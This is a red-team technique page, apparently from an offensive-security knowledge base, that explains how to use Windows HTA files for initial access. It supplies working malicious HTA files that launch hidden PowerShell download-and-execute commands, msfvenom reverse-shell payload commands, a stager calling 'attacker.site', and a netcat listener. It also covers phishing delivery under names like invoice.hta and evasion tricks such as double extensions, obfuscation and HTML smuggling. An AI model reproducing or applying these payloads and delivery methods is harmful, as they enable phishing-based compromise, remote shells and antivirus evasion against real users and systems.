




# HTA (HTML Application) Files

**Type:** Malicious Documents & File-Based Delivery
**Platform:** Windows  
**Prerequisites:** User must execute the `.hta` file manually (typically via phishing, USB drop, or drive-by); Windows Script Host must be enabled (enabled by default)


---
## Overview

**HTA (HTML Application)** files are Microsoft-specific executable HTML files (`.hta`) designed to run as **full-trust desktop applications** via `mshta.exe`. Unlike regular `.html` files, HTAs can access Windows Scripting Host (WSH), run system commands, interact with the file system, and spawn processes, making them ideal for malware delivery.

HTA files are commonly used by attackers for **initial access**, especially when paired with phishing emails, infected USB drops, or HTML smuggling. Since they are executed by `mshta.exe`, a **signed Microsoft binary**, HTA files can **bypass some AV/EDR detection**, and **run without macros or UAC prompts**.


---
## How It Works

1. Attacker creates an `.hta` file with embedded VBScript, JavaScript, or both.
2. The file is sent or dropped to the target system.
3. When the user opens it, `mshta.exe` executes the embedded script.
4. The script downloads and executes a second-stage payload or runs a reverse shell.

HTA execution is **native** to Windows (since XP) and doesn’t require any third-party tools or permissions.


---
## Prerequisites

**Tools Needed**
- Text editor (VS Code, Notepad++) or script generator
- Optional: `msfvenom`, PowerShell, ( for creating the second stage payload )
- Optional: Web server or hosting service


---
## Steps to Implement

1. **Create a Reverse Shell Payload (optional)**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f exe -o shell.exe
```
or
```shell
msfvenom -p windows/powershell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh -o shell.ps1
```

Host it using:

```bash
python3 -m http.server 80
```

2. **Create a Malicious `.hta` File**

create a `.hta`  file with embedded **JavaScript** that runs system commands
```html
<html>
<head>
<script>
      var r = new ActiveXObject("WScript.Shell");
      r.Run("powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/payload.ps1')");
</script>
</head>
<body>
</body>
</html>
```

Or use **VBScript**:
```html
<html>
<head>
  <HTA:APPLICATION ID="test"/>

<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/payload.ps1')"
</script>
</head>
<body>
</body>
</html>
```




3. **Deliver the `.hta` File**

- Send via email as an attachment (e.g., `invoice.hta`)
- Upload to file-sharing services (Google Drive, Dropbox)
- Drop on USB devices or shared drives

4. **Set Up Listener**
- make sure the listener is up and running ( listening for incoming connection )
e.g:
```shell
nc -nlvp 9001
```



5. **Execution**

- When the user clicks the `.hta` file, `mshta.exe` will render the the HTML page ( JavaScript/VBScript ) and the embedded command will runs silently and retrieves our payload, resulting in a reverse shell being established.




---
## Payload/Code Snippets

- **PowerShell One-Liner Stager**
```powershell
powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker.site/shell.ps1')
```

- **mshta Command Execution**
```shell
mshta.exe http://attacker.site/payload.hta
```

> HTAs can be executed remotely by calling a hosted file using `mshta.exe`.

- **JavaScript to execute system commands** 
```html
<script>
      var r = new ActiveXObject("WScript.Shell");
      r.Run("calc.exe");
</script>
```

- **VBScript to execute system commands**
```html
<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc.exe"
</script>
```

- **HTA tags ( configure the window and behavior of the application. )**
```html
<html>
<head>
  <HTA:APPLICATION 
    ID="CarCatalog"
    APPLICATIONNAME="CarCatalog"
    BORDER="thin"
    CAPTION="yes"
    SHOWINTASKBAR="yes"
    SINGLEINSTANCE="yes"
    SYSMENU="yes"
    WINDOWSTATE="normal" 
    SCROLL="yes" >
</head>
</html>
```


---
## Tips

- Use HTAs with obfuscated script (e.g., base64, JSFuck, or MacroPack)
- Combine with HTML Smuggling for stealth delivery
- Use .hta file extensions disguised as .pdf.hta, .doc.hta
- Some AVs may flag .hta, so host the payload as .txt or obfuscate the server path ( when using `mshta.exe <REMOTE-HTA>')


---
## References

- [LOLBAS: mshta.exe](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
- [Mshta | Red Canary Threat Detection Report](https://redcanary.com/threat-detection-report/techniques/mshta/)
- [MITRE ATT&CK – T1218.005 (Signed Binary Proxy Execution: mshta.exe)](https://attack.mitre.org/techniques/T1218/005/)
- [Creating a Malicious HTML Document](https://github.com/k4sth4/Malicious-HTA-File)
- [HTML Application (.HTA) files are being used to distribute Smoke Loader](https://www.sonicwall.com/blog/html-application-hta-files-are-being-used-to-distribute-smoke-loader-malware)
- [How .HTA Files Can be used for initial access  YOUTUBE](https://youtu.be/uYSFH5A_UDk?si=v5j5F4vmjrXTDu9j)


---

**_Author_** : **o-sec**
